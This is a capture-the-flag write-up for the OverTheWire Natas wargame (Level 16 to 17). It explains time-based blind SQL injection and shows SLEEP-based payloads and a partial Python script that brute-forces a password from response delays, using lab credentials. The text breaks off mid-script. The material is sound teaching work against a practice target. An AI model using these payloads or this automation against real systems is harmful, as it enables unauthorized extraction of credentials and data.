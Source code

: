 ## Level 16 → Level 17
**Vulnerability**: Blind SQL Injection (Time-based) https://www.vaadata.com/blog/what-is-blind-sql-injection-attack-types-exploitations-and-security-tips/ https://www.sentinelone.com/cybersecurity-101/cybersecurity/sql-injection/#5-blind-sql-injection
**Thought Process**: The page was the same as Natas15, the PHP source code showed the `echo` statements from Natas15 were commented out, my initial `OR 1=1 -- -` payload yielded no visible output in the browser. This lack of any feedback ("This user exists." or "This user doesn't exist.") made me initially confused as the Boolean mechanism I relied on in Natas15 was gone. I needed a different method to infer information. Recalling the SentinelOne article on Blind SQL Injection, I revisited the concept of time-based SQLi. This technique involves injecting queries that cause a delay in the server's response if a condition is true. This delay then serves as the mechanism to infer information. Further research, specifically an example from Vaadata.com, solidified this idea with the `OR IF(condition, SLEEP(X), 0) -- -` syntax.
**Methodology & Execution**
- **Tools Used:** Browser, Python
- **Step-by-Step Execution:**
	1. Confirmed the absence of any direct output by submitting `natas18" OR 1=1 -- -`.
	2. Tested the time-based injection concept using the `SLEEP()` function: `natas18" OR IF(1=1, SLEEP(3), 0) -- -`.
	3. Observed the network tab in the browser, the `index.php` request showed a significant delay (around 3 seconds) before completing, confirming that time delays could be used as the mechanism to infer information.
	4. Formulated the core time-based payload for character inference: `natas18" AND BINARY password LIKE '{current_password + c}%'` combined with `IF(..., SLEEP(3), 0)`.
	5. Modified the Natas15 Python script to automate the brute-force process by measuring response times:
	```Python
	import requests
	import string
	import time
	
	TARGET = 'http://natas17.natas.labs.overthewire.org/index.php'
	AUTH = ('natas17', 'EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC')
	CHARSET = string.ascii_letters + string.digits
	PASSWORD_LENGTH = 32
	SLEEP_TIME = 3
	
	current_password = ""
	
	for i in range(1, PASSWORD_LENGTH + 1):
	    for c in CHARSET:
	        # Construct the time-based SQL injection payload using LIKE BINARY
	        # Checks if the 'natas18' password starts with the 'current_password'
	        # found so far, followed by the current character 'c'.
	        # If true, it causes a sleep.
	        payload = (
	            f'" OR IF(username=\'natas18\' AND BINARY password LIKE \'{current_password + c}%\', '
	            f'SLEEP({SLEEP_TIME}), 0)-- -'
	        )
	        data = {'username': payload}
	        start_time = time.time()
	        response = requests.post(TARGET, auth=AUTH, data=data)
	        end_time = time.time()
	        elapsed_time = end_time - start_time
	